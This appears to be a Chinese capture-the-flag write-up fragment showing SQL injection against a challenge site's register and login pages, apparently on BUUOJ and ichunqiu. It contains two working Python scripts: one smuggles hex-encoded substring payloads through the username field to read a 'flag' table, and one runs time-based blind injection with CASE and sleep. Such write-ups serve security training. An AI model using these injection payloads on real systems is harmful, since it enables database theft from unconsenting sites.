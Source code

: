 ```mysql
| '0'+substr(hex(hex('flag')) from 1 for 10)+'0' |
+------------------------------------------------+
|                    3636364336                  |
+------------------------------------------------+
1 row in set (0.00 sec)

//这里的话因为fuzz发现逗号，information等被过滤，所有用from ... for .. 代替逗号，猜测表名为flag
```



```python
import requests
import time

login_url='http://ad9e4b4c-00ee-47c4-8298-b750b130f0d1.node3.buuoj.cn/login.php'
register_url='http://ad9e4b4c-00ee-47c4-8298-b750b130f0d1.node3.buuoj.cn/register.php'
content=''

with open('D:/Program Files/JetBrains/PyCharm 2020.3.1/project/1.txt', 'w+') as f:
    for i in range(1,20):
        data_register={'email':'123@%d'%i,'username':"0'+( substr(hex(hex((select * from flag ))) from (%d-1)*10+1 for 10))+'0"%i,'password':'1'}
        data_login={'email':'123@%d'%i,'password':'1'}
        requests.post(register_url,data=data_register)
        rr=requests.post(login_url,data=data_login)
        rr.encoding='utf-8'
        r=rr.text
        location=r.find('user-name')
        cont=r[location+17:location+42].strip()
        f.write(cont)
        time.sleep(2)
f.close()

```

还有一种方法是结合limit offset进行盲注

 **select * from table limit 2 offset 1;**      

**//含义是从第1条（不包括）数据开始取出2条数据，limit后面跟的是2条数据，offset后面是从第1条开始读取，即读取第2,3条**

```python
# -*- coding:utf8 -*-
import requests
import time
db_name=""
url= "http://7f01519f2fe14923acb0d2a096255f7302bd502b499a47ed.game.ichunqiu.com/register.php"
database=""
##当前数据库名长度##
for a in range(1,50):
   for i in range(30,148):
        db_payload="' or (case when ascii(mid((select * from flag limit 1 offset 0)from(%d)for(1)))='%d' then sleep(3) else 'b' end)='a"%(a,i)
        da={"email":"11@qq.com",
            "username":db_payload,
            "password":"11"}
        print(db_payload)
        startTime=time.time()
        r=requests.post(url,data=da,timeout=100)
        if time.time()-startTime>2:
            database+=chr(i)
            print(database)
            break
print(database)
```
